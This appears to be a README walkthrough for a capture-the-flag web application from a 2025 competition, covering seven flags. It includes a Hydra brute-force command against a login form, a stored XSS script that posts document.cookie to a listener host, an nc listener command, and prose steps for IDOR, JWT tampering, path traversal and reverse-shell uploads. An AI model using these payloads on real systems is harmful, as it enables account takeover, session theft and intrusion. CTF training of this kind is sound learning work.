




# CTF Web Application Walkthrough

## Overview

This walkthrough provides a step-by-step guide on how to solve all the flags hidden within the vulnerable web application from the [ASI KARIKAS 2025 competition](https://asikarikas.ee/).

---

## Flag 1: Username Enumeration and Password Brute-Force

**Vulnerability Type**: Username Enumeration and Brute Force  
**Flag Location**: Flag is shown after getting access to the only account whose password is brute-forceable.

### Steps:

1. Navigate to /Profile


2. Find out what is the network response to a failed login request


3. Find out the request parameters


4. Download username and password wordlists (or use the ones included in /vulns/wordlists)
5. Install Hydra
6. Set the parameters and run Hydra against the log-in form:
   ```hydra -L usernames.txt -p dummy_password http-post-form "http://127.0.0.1/api/login:username=^USER^&password=^PASS^:F={\"Username does not exist\"}"```
   hydra -L usernames.txt -p dummy_password 127.0.0.1 http-post-form "/api/login:username=^USER^&password=^PASS^:F={\"error\":\"Username does not exist\"}"


1. Navigate to the login page and observe the response when entering invalid usernames. There may be differences in the error message for incorrect usernames vs passwords.
2. Use this to enumerate valid usernames.
3. Once you have a valid username, perform a brute-force attack on the password using a tool like Hydra or Burp Suite Intruder.
4. After logging in successfully, the flag will be accessible on the profile page or in the user dashboard.

---

## Flag 2: Cross-Site Scripting (XSS)

**Vulnerability Type**: Stored XSS  
**Flag Location**: In another user’s session cookies.

### Steps:
1. Create an XSS payload that sends cookies a server you control
   ```<script>
   fetch('http://127.0.0.1:1234', {  // CHANGE THIS TO YOUR IP
      method: 'POST',
      mode: 'no-cors',
      body: document.cookie
   });
   </script>```
   You can find this same exact code in /vulns/xss vuln/stored_xss_vuln.html

2. Install netcat (preferably on a linux instance) and set it to listen mode
   ```nc -lvnp 1234```
   

3. Navigate to /


4. Choose the first offer that has higher traffic than other offer


5. Add the XSS payload as a review


6. Look at your listener and extract the flag along with the cookies


---

## Flag 3: Client-Side Validation Bypass

**Vulnerability Type**: Client-Side Validation Bypass  
**Flag Location**: /Profile page.

### Steps:
1. Go to the page where you can purchase items (likely through the shop interface).
2. Examine the client-side code (JavaScript) for validation checks (e.g., checking available funds).
3. Modify the client-side code to bypass or adjust the validation (using browser developer tools).
4. Complete the transaction and navigate to your profile (/Profile) to view the flag.

---

## Flag 4: Insecure Direct Object References (IDOR)

**Vulnerability Type**: IDOR  
**Flag Location**: Accessing user account with ID=1.

### Steps:
1. Find a URL or API endpoint where the user ID is exposed (e.g., `/user?id=2`).
2. Change the ID parameter in the URL to `1` (e.g., `/user?id=1`).
3. Access the page and look for a flag displayed in the user’s profile or data.

---

## Flag 5: JWT Token Manipulation

**Vulnerability Type**: JWT Manipulation  
**Flag Location**: /admin page.

### Steps:
1. Analyze the JWT token stored in your session (likely in a cookie or local storage).
2. Decode the token and examine the payload for potential weaknesses.
3. Modify the token (e.g., change the role or permissions) and re-encode it.
4. Send the modified token back to the server and access the admin area (/admin).
5. The flag will be visible in the admin section.

---

## Flag 6: Local File Inclusion (LFI)

**Vulnerability Type**: LFI  
**Flag Location**: C:\Windows\System32\drivers\etc\hosts

### Steps:
1. Look for a poorly sanitized file inclusion endpoint (e.g., `/viewfile?filename=`).
2. Manipulate the `filename` parameter to point to system files (e.g., `../../../etc/hosts`).
3. Access the file and find the flag hidden in the contents.

---

## Flag 7: File Upload Vulnerability (RCE)

**Vulnerability Type**: Remote Code Execution via File Upload  
**Flag Location**: After gaining shell access.

### Steps:
1. Locate the file upload functionality.
2. Upload a reverse shell payload (e.g., PHP, JSP, or Python).
3. Trigger the payload to execute on the server.
4. Gain shell access to the server and escalate privileges.
5. Search for the flag on the server.

---

## Conclusion

Gongratulations! You have sucessfully found all 7 flags!

---

## License

This project is licensed under the GNU General Public License (GPL) Version 3 - see the [LICENSE](LICENSE) file for details.

---

## Acknowledgments

- This project was created ONLY for educational purposes.
- Thanks to ASI KARIKAS for hosting such an interesting competition.

---

## Credits / Authors

- **Developers**: LellerLololol and PixelsJr
- **Team**: PixelJaTeised
